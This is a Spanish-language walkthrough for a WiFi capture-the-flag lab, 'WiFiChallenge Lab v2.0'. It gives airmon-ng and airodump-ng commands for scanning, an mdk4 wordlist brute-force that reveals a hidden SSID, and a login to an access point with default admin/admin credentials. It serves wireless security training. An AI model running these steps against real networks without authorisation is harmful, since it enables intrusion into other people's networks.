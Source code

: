 # WiFiChallenge Lab v2.0

## Preparación Inicial
```bash
mkdir ~/wifi
sudo airmon-ng start wlan0
```

## 00. Check VM
```bash
sudo su
cat /root/flag.txt
```

## 01. Canal del AP wifi-global
```bash
sudo airodump-ng wlan0mon -w ~/wifi/scan --manufacturer --wps --band abg
```

## 02. MAC del cliente wifi-IT
```bash
sudo airodump-ng wlan0mon -w ~/wifi/scanc11 --manufacturer --wps -c11
```

## 03. Probe de 78:C1:A7:BF:72:46
```bash
sudo airodump-ng wlan0mon -w scan --manufacturer --wps --band abg
# Buscar en la sección de clientes
```

## 04. ESSID del AP oculto (F0:9F:C2:6A:88:26)
```bash
cat ~/rockyou-top100000.txt | awk '{print "wifi-" $1}' > ~/wifi-rockyou.txt
airmon-ng start wlan0 
iwconfig wlan0mon channel 11
mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt
```

## 05. Flag en AP oculto (credenciales por defecto)
```bash
# free.conf
network={
    ssid="ESSID_ENCONTRADO"
    key_mgmt=NONE
    scan_ssid=1
}

wpa_supplicant -Dnl80211 -iwlan2 -c free.conf
dhclient wlan2 -v
# Acceder a 192.168.16.1 con admin/admin
```
